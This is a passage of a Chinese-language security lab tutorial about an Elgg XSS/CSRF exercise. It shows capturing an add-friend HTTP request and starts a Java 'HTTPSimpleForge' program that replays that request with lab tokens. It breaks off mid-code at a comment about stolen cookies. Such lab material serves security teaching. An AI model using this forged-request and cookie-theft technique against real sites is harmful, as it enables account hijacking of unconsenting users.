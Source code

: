 首先，我们查看受害者添加好友时候的请求：
我们登录Samy的账号来添加Boby来查看添加好友的请求

step1:

![3.4-1](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793044079?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

如上图，登陆后单击‘more’中的‘members’来添加好友，然后点击一个不是好友的用户来添加好友。

![3.4-2](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793112478?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

点击这里添加好友。

step2:

这里使用的工具是之前提到的 `live http headers` 工具，点击浏览器的 tools-》add-ones ，在搜索框输入 live http header 就可以找到，点击 install 即可安装，安装后重启浏览器就可以了。我这里是已经安装了，截图如下：

![3.4-3](https://dn-simplecloud.shiyanlou.com/uid/8797/1524647286699.png-wm)

为避免之前登录过的影响，我们先清理一下浏览器历史，点击 History-》Clear Recent History ：

![3.4-4](https://dn-simplecloud.shiyanlou.com/uid/8797/1524647286699.png-wm)

然后点击浏览器 tools-》 live http headers，打开之前添加的工具。再点击第一步中添加好友的按钮，就可以在 live http headers 的窗口看到很多类似如下的内容。当然，你的显示内容跟我的有些地方可能不一样。

![3.4-5](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793133381?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

step2中的截图即为请求信息。

当攻击者知道了他的请求以后，就可以编写一个Java程序发送相同的HTTP请求达到创建项目的目的，当然还可以进行其他的请求：

HTTP访问请求：
>1. 打开一个连接到web服务器。

>2. 设置必要的HTTP头信息。

>3. 发送请求到web服务器。

>4. 得到来自web服务器的响应。

```
  	import java.io.*;
	import java.net.*;


	public class HTTPSimpleForge {

	public static void main(String[] args) throws IOException {
	try {
	int responseCode;
	InputStream responseIn=null;
	String requestDetails = "&__elgg_ts=<<correct_elgg_ts_value>>
	&__elgg_token=<<correct_elgg_token_value>>";
	// URL to be forged.
	URL url = new URL ("http://www.xsslabelgg.com/action/friends/add?
	friend=<<friend_user_guid>>"+requestDetails);
	// URLConnection instance is created to further parameterize a
	// resource request past what the state members of URL instance
	// can represent.
	HttpURLConnection urlConn = (HttpURLConnection) url.openConnection();
	if (urlConn instanceof HttpURLConnection) {
	urlConn.setConnectTimeout(60000);
	urlConn.setReadTimeout(90000);
	}
	// addRequestProperty method is used to add HTTP Header Information.
	// Here we add User-Agent HTTP header to the forged HTTP packet.
	// Add other necessary HTTP Headers yourself. Cookies should be stolen
```